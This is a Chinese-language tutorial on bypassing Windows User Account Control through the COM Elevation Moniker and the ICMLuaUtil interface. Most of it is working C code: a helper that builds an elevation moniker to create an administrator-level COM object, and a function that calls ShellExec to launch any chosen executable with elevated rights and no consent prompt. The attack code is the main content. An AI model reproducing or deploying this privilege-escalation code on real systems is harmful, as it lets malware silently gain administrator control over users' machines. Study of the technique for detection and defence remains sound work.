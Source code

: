 ## 基于COM组件接口Bypass UAC

COM提升名称（COM Elevation Moniker）技术允许运行在用户帐户控制（UAC）下的应用程序用提升权限的方法来激活COM类，以此提升COM接口权限。其中，ICMLuaUtil接口中提供了ShellExec方法来执行命令，创建指定进程。所以，本文介绍的基于ICMLuaUtil接口的Bypass UAC的实现原理是利用COM提升名称（COM Elevation Moniker）来对ICMLuaUtil接口提权，提权后通过调用ShellExec方法来创建指定进程，实现Bypass UAC操作。

使用权限提升COM类的程序必须调通过用CoCreateInstanceAsAdmin函数来创建COM类，CoCreateInstanceAsAdmin函数的代码可以在MSDN网页（ https://msdn.microsoft.com/zh-cn/library/windows/desktop/ms679687.aspx ）上找到，下面给出的是CoCreateInstanceAsAdmin函数的改进代码，增加了初始化COM环境的代码。

那么，COM提升名称具体的实现代码如下所示。

```
HRESULT CoCreateInstanceAsAdmin(HWND hWnd, REFCLSID rclsid, REFIID riid, PVOID *ppVoid)
{
	BIND_OPTS3 bo;
	WCHAR wszCLSID[MAX_PATH] = { 0 };
	WCHAR wszMonikerName[MAX_PATH] = { 0 };
	HRESULT hr = 0;

	// 初始化COM环境
	::CoInitialize(NULL);

	// 构造字符串
	::StringFromGUID2(rclsid, wszCLSID, (sizeof(wszCLSID) / sizeof(wszCLSID[0])));
	hr = ::StringCchPrintfW(wszMonikerName, (sizeof(wszMonikerName) / sizeof(wszMonikerName[0])), L"Elevation:Administrator!new:%s", wszCLSID);
	if (FAILED(hr))
	{
		return hr;
	}

	// 设置BIND_OPTS3
	::RtlZeroMemory(&bo, sizeof(bo));
	bo.cbStruct = sizeof(bo);
	bo.hwnd = hWnd;
	bo.dwClassContext = CLSCTX_LOCAL_SERVER;

	// 创建名称对象并获取COM对象
	hr = ::CoGetObject(wszMonikerName, &bo, riid, ppVoid);
	return hr;
}
```

执行上述代码，即可创建并激活提升权限的COM类。ICMLuaUtil接口通过上述方法创建后，直接调用ShellExec方法创建指定进程，完成Bypass UAC的操作。

那么，基于ICMLuaUtil接口Bypass UAC的具体实现代码如下所示。

```
BOOL CMLuaUtilBypassUAC(LPWSTR lpwszExecutable)
{
	HRESULT hr = 0;
	CLSID clsidICMLuaUtil = { 0 };
	IID iidICMLuaUtil = { 0 };
	ICMLuaUtil *CMLuaUtil = NULL;
	BOOL bRet = FALSE;

	do {
		::CLSIDFromString(CLSID_CMSTPLUA, &clsidICMLuaUtil);
		::IIDFromString(IID_ICMLuaUtil, &iidICMLuaUtil);

		// 提权
		hr = CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&CMLuaUtil));
		if (FAILED(hr))
		{
			break;
		}

		// 启动程序
		hr = CMLuaUtil->lpVtbl->ShellExec(CMLuaUtil, lpwszExecutable, NULL, NULL, 0, SW_SHOW);
		if (FAILED(hr))
		{
			break;
		}

		bRet = TRUE;
	}while(FALSE);

	// 释放
	if (CMLuaUtil) 
	{
		CMLuaUtil->lpVtbl->Release(CMLuaUtil);
	}

	return bRet;
}
```
